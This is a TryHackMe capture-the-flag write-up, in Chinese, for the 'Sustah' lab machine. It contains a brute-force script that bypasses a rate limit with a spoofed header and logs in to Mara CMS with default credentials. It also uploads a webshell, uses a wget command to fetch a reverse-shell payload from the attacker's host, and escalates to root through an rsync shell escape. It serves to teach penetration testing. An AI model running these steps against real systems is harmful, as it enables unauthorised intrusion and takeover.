 # Sustah Writeup
> URL : https://tryhackme.com/room/sustah

IP : 10.10.252.122

## Recon
- 掃 Port
	- `rustscan -a 10.10.252.122 -r 1-65535`
		- ![](https://i.imgur.com/Hn5pZPX.png)
	- `nmap -A -p22,80,8085 10.10.252.122`
		- ![](https://i.imgur.com/XFGhbeq.png)
		- gunicorn 20.0.4 
- 觀察首頁
	- ![](https://i.imgur.com/Yf78MKv.jpg)
	- 啥都ㄇ有
	- 掃目錄
		- ![](https://i.imgur.com/aljCOjz.png)
		- 也沒東西
- 觀察 8085 port 
	- ![](https://i.imgur.com/7KwmzSk.png)
	- 看起來像是幸運轉盤
	- 掃目錄
		- ![](https://i.imgur.com/MnxxFI6.png)
		- 有一個 ping 他只會回 pong
## 爆數字
- 下面有一個猜數字遊戲
	- ![](https://i.imgur.com/2R9ESg5.png)
	- 他說我有 0.004% 的勝率
	- 先測一下能不能爆破
```python
from bs4 import BeautifulSoup
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://10.10.252.122:8085',
    'Connection': 'keep-alive',
    'Referer': 'http://10.10.252.122:8085/home',
    'Upgrade-Insecure-Requests': '1',
}

data = {
  'number': '123'
}

for i in range(100):
    response = requests.post('http://10.10.252.122:8085/home', headers=headers, data=data)
    soup = BeautifulSoup(response.text,'html.parser')
    try:
        print(soup.find('h3').text)
    except:
        print(soup)
```
- 發現次數過多他會噴 
	- `{"error":"rate limit execeeded"}`
	- ![](https://i.imgur.com/Ka1SXAx.png)
- 試了很多次發現
	- 帶 'X-Remote-Addr' : '127.0.0.1' 
	- 就不會噴錯了
- 計算一下 
	- `1/(0.004%) = 25000`
	- 所以猜測密碼在這之間
	- 寫腳本來爆一下
```python
from bs4 import BeautifulSoup
import requests
from multiprocessing import Process, Pool

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://10.10.252.122:8085',
    'Connection': 'keep-alive',
    'Referer': 'http://10.10.252.122:8085/home',
    'Upgrade-Insecure-Requests': '1',
    'X-Remote-Addr' : '127.0.0.1'
}


l = [i for i in range(25000)]

def meow(num):
    data = {
        'number': num
    }

    response = requests.post('http://10.10.252.122:8085/home', headers=headers, data=data)
    soup = BeautifulSoup(response.text,'html.parser')
    try:
        s = soup.find('h3').text 
        if 'Oh no!' not in s:
            print(num,s)
    except:
        print(soup , response.status_code)
p = Pool(200)
p.map(meow,l)
```
- 幾秒鐘就爆出來ㄌ
	- ![](https://i.imgur.com/ovEpSKA.png)
	- 10921
- 他回應我這個 `/YouGotTh3P@th/`
	- 加到 80 port 的 Path 上面
- 會出現一個 CMS
	- ![](https://i.imgur.com/G6gweDr.png)
## CMS
- 發現他是 Mara CMS
	- ![](https://i.imgur.com/pQKgc9o.png)
	- 預設可以用 `admin` / `changeme` 進行登入
- 登入完還要我趕快改密碼
	- ![](https://i.imgur.com/caUvVfd.png)
- 查詢相關 Exploit
	- https://www.exploit-db.com/exploits/48780
	- 目測是可以直接傳 webshell
- 那就給他直接傳下去ㄅ
	- ![](https://i.imgur.com/TDlZejC.png)
- 還真的可以
	- `http://10.10.252.122/YouGotTh3P@th/img/webshell.php?A=wget 10.13.21.55:8000/s -O /tmp/s`
		- 戳 reverse shell
		- ![](https://i.imgur.com/7JTOmDY.png)
## 提權
- `python3 -c "import pty;pty.spawn('/bin/bash')"`
- 試著用 LSE
	- `bash lse.sh -l1`
	- 看不出什麼東西 QQ
- 發現 find 指令被封鎖 QWQ
	- 提示說去找備份檔案
	- ![](https://i.imgur.com/gYLfB4Y.png)
	- 網路上看到兩種解法
		- `tar cf - $PWD 2>/dev/null | tar tvf - | grep backup`
			- 慢
		- `du -a 2>/dev/null  | grep backup`
			- 快
- 就找到了 `/usr/backups`
	- ![](https://i.imgur.com/amaWZB4.png)
- 觀察發現有一個隱藏檔 `.bak.passwd`
	- ![](https://i.imgur.com/EgM00gS.png)
	- 解開來看
		- ![](https://i.imgur.com/RMkPPLY.png)
	- 獲得帳號密碼
		- `kiran` / `trythispasswordforuserkiran`
- 透過 su 切過去
	- ![](https://i.imgur.com/PL9hiNi.png)
- 取得 User Flag
	- ![](https://i.imgur.com/B0lQJsK.png)
## 二次提權
- 起手式 `sudo -l`
	- ![](https://i.imgur.com/1L72E2i.png)
- 使用豌豆
	- ![](https://i.imgur.com/uhp6eWY.png)
	- 發現有一個 `doas` 酷指令，可以不用 suid 或 sudo
- 去 GTFOBins 尋找 rsync to shell
	- https://gtfobins.github.io/gtfobins/rsync/#suid
	- `rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`
	- ![](https://i.imgur.com/AutD5Og.png)
	- 成功提權
- 取得 Root Flag
	- ![](https://i.imgur.com/ci2EuFY.png)
